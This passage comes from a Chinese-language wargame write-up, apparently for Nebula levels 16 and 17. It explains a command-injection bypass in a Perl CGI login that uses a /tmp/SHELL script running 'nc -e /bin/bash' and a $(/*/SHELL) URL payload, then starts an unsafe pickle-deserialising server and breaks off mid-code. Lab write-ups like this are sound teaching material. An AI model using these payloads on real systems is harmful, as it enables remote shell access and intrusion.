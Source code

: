 ``` perl
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
      print("Your login was accepted<br/>");
  } else {
      print("Your login failed<br/>");
  }    
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

由源码可以看出，此题应该是**命令注入**，但对输入的变量做了限制：

- 将所有的小写字母转化为大写字母
- 将空白字符及其后面的字符全部删掉

一般的命令都要求输入参数，这就要用空格隔开，因此不能直接注入命令，考虑将命令写入脚本，然后执行；但是并没有对根目录的写入权限，而根目录下的所有文件夹都是小写，所以就需要考虑一种绕过方法。

将如下脚本写入`/tmp/SHELL`：

``` shell
#!/bin/bash
nc.traditional -nlp 9999 -e /bin/bash
```

然后可以用`/*/SHELL`来访问到它，这就绕过了大写转换。给此脚本增加执行权限，然后访问：

	http://your-ip:1616/index.cgi?username=$(/*/SHELL)

然后直接连接nc所监听端口，获取shell。

> ps. 另一种绕过方法是利用shell自身的[case modification](http://wiki.bash-hackers.org/syntax/pe#case_modification)，先定义一变量，然后在引用该变量的时候利用`${var,,}`来将大写字母转化为小写。

---

## Level17

题目源码：

``` python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
```